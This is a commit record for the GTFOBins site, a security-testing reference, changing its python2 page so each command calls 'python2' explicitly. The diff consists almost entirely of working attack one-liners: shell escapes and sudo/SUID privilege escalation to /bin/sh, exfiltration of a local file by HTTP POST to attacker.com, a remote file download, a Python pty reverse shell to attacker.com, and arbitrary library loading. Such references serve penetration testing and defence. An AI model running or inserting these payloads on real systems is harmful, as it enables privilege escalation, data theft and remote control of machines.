

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/python2.md, in a window 1280 px wide. Shown: the whole page at 87% size, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Explicitly use the python2 command

```diff
--- a/_gtfobins/python2.md
+++ b/_gtfobins/python2.md
@@ -1,33 +1,33 @@
 ---
 functions:
   exec-interactive:
-    - code: python -c 'import os; os.system("/bin/sh")'
+    - code: python2 -c 'import os; os.system("/bin/sh")'
   sudo-enabled:
-    - code: sudo python -c 'import os; os.system("/bin/sh")'
+    - code: sudo python2 -c 'import os; os.system("/bin/sh")'
   suid-enabled:
-    - code: ./python -c 'import os; os.system("/bin/sh -p")'
+    - code: ./python2 -c 'import os; os.system("/bin/sh -p")'
   upload:
     - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
         export URL=http://attacker.com/
         export LFILE=file_to_send
-        python -c 'import urllib as u,urllib2 as u2,os.environ as e; u2.urlopen(u2.Request(e["URL"],u.urlencode({"d":open(e["LFILE"]).read()})))'
+        python2 -c 'import urllib as u,urllib2 as u2,os.environ as e; u2.urlopen(u2.Request(e["URL"],u.urlencode({"d":open(e["LFILE"]).read()})))'
     - description: Serve files in the local folder running an HTTP server.
       code: |
         export LPORT=8888
-        python -m SimpleHTTPServer $LPORT
+        python2 -m SimpleHTTPServer $LPORT
   download:
     - description: Fetch a remote file via HTTP GET request.
       code: |-
         export URL=http://attacker.com/file_to_get
         export LFILE=where_to_save
-        python -c 'import urllib as u,os.environ as e;u.urlretrieve(e["URL"], e["LFILE"])'
+        python2 -c 'import urllib as u,os.environ as e;u.urlretrieve(e["URL"], e["LFILE"])'
   reverse-shell:
     - description: Run <code>socat file:`tty`,raw,echo=0 tcp-listen:12345</code> on the attacker box to receive the shell.
       code: |
         export RHOST=attacker.com
         export RPORT=12345
-        python -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
+        python2 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
   load-library:
-    - code: python -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
+    - code: python2 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
 ---
```
